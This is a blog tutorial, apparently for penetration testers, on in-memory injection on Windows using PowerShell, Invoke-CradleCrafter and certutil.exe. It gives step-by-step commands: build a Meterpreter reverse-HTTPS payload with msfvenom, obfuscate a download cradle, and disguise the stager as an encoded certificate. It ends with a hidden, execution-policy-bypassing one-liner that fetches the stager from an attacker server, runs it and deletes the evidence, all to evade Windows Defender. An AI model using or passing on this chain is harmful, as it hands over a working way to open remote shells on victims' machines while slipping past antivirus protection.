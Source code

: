 ```yaml
---
layout: post
title: "PowerShell: In-Memory Injection Using CertUtil.exe"
date: "2022-05-18"
description: "Using PowerShell, `Invoke-CradleCrafter` and Microsoft’s Certutil.exe to craft a payload and one-liner that can be used to evade the latest version of Windows Defender (as of this writing)."
coverimage: PowerShell_In_Memory_Injection_Using_CertUtil_exe.jpg
tags: certutil powershell
published: true
posttype: article
categories: tutorial
---
```

- PowerShell is still one of the easiest and best ways to gain a foothold, but at the same time, it is selling you out because it talks to AMSI as soon as it’s run.
- The beauty of this method is that Microsoft’s `certutil` does the network call out to your primary payload while appearing to be an innocent certificate file.

**Pre-Requisites**

- Download `Invoke-CradleCrafter` from GitHub.

**Methodology**

1. First, we will create a base64 encoded PowerShell Meterpreter payload by performing the following:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<YOUR IP HERE> LPORT=443 -e cmd/powershell_base64 -f psh -o b64_pwsh.txt
```

<div class="card-body es-lightbulb"><p>
**Note** that the payload file’s extension could be anything as long as `certutil` can get at it and read its content. For example, an organization may have a policy (or IDS, content filter, etc.) that does not allow the downloading of scripts; however, they probably allow .txt files or even files with abnormal extensions. If you change it, make sure you compensate for that when setting the URL in `Invoke-CradleCrafter`</p>
</div>


1. Next, you will create a folder used to serve up web content. Place the PowerShell Meterpreter PowerShell script (`b64_pwsh.txt`) inside this folder.
2. Next, we will use `Invoke-CradleCrafter` to obfuscate our `certutil` and PowerShell commands used to perform the in-memory injection. Drop into a PowerShell prompt on your Linux host by typing `pwsh` or `powershell`.  Then `cd` into your `Invoke-CradleCrafter` directory.

```powershell
Import-Module .\Invoke-CradleCrafter.psd1; 
Invoke-CradleCrafter
Invoke-CradleCrafter> SET URL http://10.10.10.10/b64_pwsh.txt
Invoke-CradleCrafter> MEMORY
Invoke-CradleCrafter> CERTUTIL
```

1. Next, you will be presented with your obfuscation options. Select **ALL** by typing it on the command line and then typing **1** to execute.

```
:::powershell
Invoke-CradleCrafter> ALL
Invoke-CradleCrafter> 1
```

1. Once generated, we now have a PowerShell cradle with obfuscation that can pull in our `b64_pwsh.txt` payload. We now want to put this into a text file such as `output.txt` for encoding. 
2. We will encode this file in base64 using the `certutil` to create a file called `cert.cer` which will end up on our web server next to the `b64_pwsh.txt`.

```
certutil -encode output.txt cert.cet
```

1. We can now use the following one-liner to pull our `cert.cer` certificate from our web server; the certificate gets decoded and saved to the disk as `stager.ps1`. The file `stager.ps1` is then executed (this is the content of the cradle we made earlier with `Invoke-CradleCrafter`), and when it runs, it pulls the `b64_pwsh.txt` file down from the server and executes it to give us a Metasploit Meterpreter session.  

```
:::powershell
powershell.exe -Win hiddeN -Exec ByPasS add-content -path %APPDATA%\cert.cer (New-Object Net.WebClient).DownloadString('http://10.10.10.10/cert.cer'); certutil -decode %APPDATA%\cert.cer %APPDATA%\stager.ps1 & start /b cmd /c powershell.exe -Exec Bypass -NoExit -File %APPDATA%\stager.ps1 & start /b cmd /c del %APPDATA%\cert.cer
```

<div class="card-body es-warning"><p> **NOTE** that the `cert.cer` file will be deleted by the script; however, you will need to remove the `stager.ps1` file manually.</p>
</div>